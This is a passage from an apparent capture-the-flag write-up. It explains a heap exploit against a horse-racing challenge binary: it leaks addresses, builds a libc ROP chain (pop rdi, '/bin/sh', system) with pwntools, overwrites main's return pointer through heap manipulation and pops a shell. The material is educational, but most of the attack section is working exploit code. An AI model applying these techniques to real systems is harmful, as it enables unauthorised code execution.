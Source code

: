 ### Creating and sending the ROP chain

As I mentioned earlier, I want to pop a shell. So all I need to construct my ROP chain is a pop rdi gadget, a "/bin/sh" string, and a way
to call the system function which the vulnerable binary kindly provides to us via the PLT. Finally, when constructing the final payload
all I need is an additional 8 garbage bytes before the ROP chain, and I also added a 0xFF byte just so it wouldn't try to keep reading.

```
ret_ptr_loc = another_leak - 0xF8
print(f"return pointer is at: {hex(ret_ptr_loc)}")

libc = ELF('./libc.so.6')
rop = ROP(libc)

pop_rdi = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
bin_sh  = libc_base + next(libc.search(b'/bin/sh'))

chain = p64(pop_rdi) + p64(bin_sh) + p64(e.plt['system'])
payload = p64(0) + chain + b'\xFF'

remove_horse(7)
remove_horse(6)

cheat(6, p64(ret_ptr_loc ^ aslr) + b'\xFF', 6)

add_horse(6, 256, b'\xFF')
add_horse(7, 256, payload)
```

The same heap trickery is used to get an allocation 8 bytes before main's return pointer. The return pointer is overwritten after the malloc
when they prompt the user for the name of the horse, so we provide the payload as the name to add_horse() for allocation 7. Lastly, we can
do some quick checks to make sure everything landed in the right place in GDB:

![image](https://user-images.githubusercontent.com/96510931/228116208-66947080-9e4a-4d55-808f-555811a0b7f8.png)

Bingo!

### Popping a shell

The rest is easy. Since we overwrote the return pointer in main, all we have to do is give '4' to the prompt to choose the exit option to stop
the while loop and return from main. Note, my scripting is far from perfect so it may take a couple tries:

```
p.sendline(b'4')
p.interactive()
```

Yeah, I'm just sending '4' because I was too lazy to write a wrapper function for option 4 at this point.
